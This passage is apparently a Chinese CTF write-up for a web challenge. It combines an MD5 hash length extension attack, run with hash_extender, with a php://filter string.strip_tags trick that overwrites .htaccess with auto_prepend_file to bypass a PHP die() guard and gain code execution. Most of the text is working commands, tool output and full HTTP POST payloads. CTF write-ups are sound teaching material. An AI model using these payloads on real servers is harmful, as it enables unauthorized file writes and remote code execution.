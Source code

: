 这里同样也给出了加密前的 secret 的 md5 值，我们这里就当做 data 也就是 demo1 的 yusa 是空值即可。  
当然因为这里加入了死亡杂糅的内容所以这里我放出 wp，其实总的来说还是上面分析的方法。

我们可以使用 `hash_extender` 这个工具来进行哈希长度扩展攻击，生成新的密文

首先考虑将 `secret` 写入到一个文件中

执行：

```shell
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[a.txt" -f md5 -l 13 -d ''
```

得到：

```php
Type: md5
Secret length: 13
New signature: 4f150e4b71070951112f56be4044c181
New string: 8000000000000000000000000000000000000000000000000000000000000000000000000000000000000068000000000000005b5b612e747874
```

> 可能需要用 CyberChef 套 From Hex (Auto) - To Base64

发送：

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: dino-ctf.kengwang.com.cn:32857

hash=4f150e4b71070951112f56be4044c181&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1thLnR4dA
```

访问 `a.txt`

发现 `secret` 是 `<?php die();`, 接下来是死亡 die 绕过

这里需要用到伪协议的一些技巧：

首先利用 `string.strip_tags` 的过滤器链吞掉之前的死亡 die, 然后再在后面接上你想要写的内容

这里使用写 `.htaccess` 的方法来实现 rce, 直接加个 `auto_prepend_file` 即可

构造出 `php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess`

```bash
hash_extender -s 37870febc8d470109a867802b8031454 -a "[[php://filter/write=string.strip_tags/?>php_value auto_prepend_file flag\n#/resource=.htaccess" -f md5 -l 13 -d ''
```

最终 payload:

```http
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 127.0.0.1:32768

hash=473640a1e1ec5efa6bdaf4c7c8f04482&content=gAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGgAAAAAAAAAW1twaHA6Ly9maWx0ZXIvd3JpdGU9c3RyaW5nLnN0cmlwX3RhZ3MvPz5waHBfdmFsdWUgYXV0b19wcmVwZW5kX2ZpbGUgZmxhZ1xuIy9yZXNvdXJjZT0uaHRhY2Nlc3M
```
